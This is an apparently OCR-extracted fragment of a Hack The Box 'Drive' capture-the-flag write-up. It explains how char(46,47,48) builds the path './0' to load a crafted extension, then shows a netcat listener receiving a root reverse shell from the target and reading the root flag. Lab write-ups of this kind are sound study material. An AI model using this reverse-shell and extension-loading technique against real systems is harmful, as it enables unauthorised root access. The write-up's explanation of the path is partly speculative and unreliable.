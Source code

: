- In the provided command, char(46,47,48) is used to create a string consisting of three ASCII characters: 
  - a period (.), a forward slash (/), and a zero (0). This is equivalent to the string ./0 in ASCII.

- In this context, ./0 is likely an attempt to load an extension from the current directory. 
The period (.) represents the current directory, and the zero (0) is part of the filename,
likely indicating that the file is an extension.

- Finally, you get a root shell on your local listener.

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# nc -nvlp 65500           
listening on [any] 65500 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.235] 38318
id
uid=0(root) gid=0(root) groups=0(root),1003(tom)
whoami
root
cd /root ;ls
root.txt
cat root.txt
4fb7b2cdd44023a1653cef2bccb0f9b4
```